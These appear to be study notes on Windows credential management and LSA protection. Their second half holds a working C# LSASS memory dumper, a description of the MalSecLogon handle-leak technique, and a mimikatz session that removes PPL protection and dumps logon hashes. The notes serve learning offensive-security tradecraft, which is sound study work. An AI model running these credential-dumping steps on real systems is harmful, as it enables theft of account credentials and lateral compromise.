 **credential process in Windows authentication:**

- windows credential management: the process where an OS receives the credentials from a service or a user, and secures it to the authenticating target for future presentation.
    
    - in the case of a domain-joined computer, the authenticating target is the domain controller.
- the credentials used are digital documents that identify the user wether a certificate, password, or PIN.
    
    - windows credentials are authenticated against the SAM database on the local computer, or Active Directory through the Winlogon service
- credentials are collected through user input on the logonUI or programmatically via the application programming interface (API) to be presented to the authenticating target.
    
- local security info is stored under **HKEY_LOCAL_MACHINE\SECURITY**.
    
    - information like policy settings, default security values, and account information, such as cached logon credentials.
    - A copy of the SAM database is also stored here, although it is write-protected.
- The following diagram shows the components that are required and the paths that credentials take through the system to authenticate the user or process for a successful logon.
    
    ![authn_lsa_architecture_client.gif](https://prod-files-secure.s3.us-west-2.amazonaws.com/a262cebd-48cd-423a-b717-ca87d807038f/0b987309-614a-4d3b-9232-bf07fe9e3f9f/authn_lsa_architecture_client.gif)
    

**********LSA**********

- the LSA includes the LSASS process, which validates users for local and remote sign-ins and enforces local security policies.
    
    - LSA is provided to prevent reading memory and code injection by nonprotected processes.
    - LSA protection runs in the background by isolating the LSA process in a container and preventing other processes like malicious actors or apps from accessing the feature.
- **********************limitations of enabling LSA protection:**********************
    
    - You can't attach a debugger to LSASS when it’s a protected process.
    - there is no supported way to debug a running protected process.
- evading LSA Protection:
    
    - Modern Anti-Virus and EDR solutions have the ability to monitor processes attempting to access LSASS memory.
        
        - because the anti-virus has the permission to access the LSASS memory
    - ************************************LSASS monitoring:************************************ using MiniDumpWriteDump from Dbghelp.dll can allow us to open the LSASS process and dump memory to disk. this can be demonstrated in the C# code:
        
        ```csharp
        using System;
        using System.Runtime.InteropServices;
        using System.Diagnostics;
        using System.IO;
         
        namespace DumpLSASS
        {
            class Program
            {
                [DllImport("Dbghelp.dll")]
                static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
                IntPtr hFile, int DumpType, IntPtr ExceptionParam,
                IntPtr UserStreamParam, IntPtr CallbackParam);
         
                [DllImport("kernel32.dll")]
                static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
         
         
                static void Main(string[] args)
                {
                    FileStream dumpFile = new FileStream("C:\\\\Windows\\\\tasks\\\\lsass.dmp", FileMode.Create);
                    Process[] lsass = Process.GetProcessesByName("lsass");
                    int lsass_pid = lsass[0].Id;
                    IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
                    bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
                    Console.WriteLine("Dumped lsass memory to C:\\\\Windows\\\\tasks\\\\lsass.dmp");
                }
            }
        }
        
        ```
        
- Bypassing LSASS Access Detection with MalSecLogon:
    
    - secondary logon (Seclogon): RPC service that allows processes to be started under alternate credentials.
        
    - The MalSecLogon attack abuses [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) to leak an LSASS handle and dump the memory. This technique is implemented in [NanoDump](https://github.com/helpsystems/nanodump).
        
    - executing this code on a Windows system:
        
        ![malseclogon2.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/a262cebd-48cd-423a-b717-ca87d807038f/45da289b-4302-4672-a167-b41616d9f9bb/malseclogon2.png)
        
    - passwords can then be extracted from the dump file using [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz)
        
- PPL (protect Process Light):
    
    - PPL provides additional LSA protection by setting privilege level on the process that can only read by a process of a higher privilege
        
    - to check if PPl is enabled by querying the RunAsPPL registry key:
        
        ```bash
        C:\\Windows\\system32>reg query HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa /v RunAsPPL reg query HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa /v RunAsPPL
        ```
        
    - A DWORD of 0x1 means it is active:
        
        ```bash
        RunAsPPL REG_DWORD 0x1
        ```
        
    - after the registry key is set up a reboot will be required.
        
    - to bypass the PPL, we can get Mimiat to load mimidrv.sys, which is a digitally signed driver that removes the protection flags from the LSASS process:
        
        ```bash
        mimikatz # !+
        [*] 'mimidrv' service not present
        [+] 'mimidrv' service successfully registered
        [+] 'mimidrv' service ACL to everyone
        [+] 'mimidrv' service started
         
        mimikatz # !processprotect /process:lsass.exe /remove
        Process : lsass.exe
        PID 552 -> 00/00 [0-0-0]
         
        mimikatz # privilege::debug
        Privilege '20' OK
         
        mimikatz # sekurlsa::logonpasswords
         
        Authentication Id : 0 ; 41238 (00000000:0000a116)
        Session           : Interactive from 1
        User Name         : DWM-1
        Domain            : Window Manager
        Logon Server      : (null)
        Logon Time        : 30/03/2022 09:15:07
        SID               : S-1-5-90-0-1
                msv :
                 [00000003] Primary
                 * Username : DC$
                 * Domain   : BORDERGATE
                 * NTLM     :  .... *SNIP*
        ```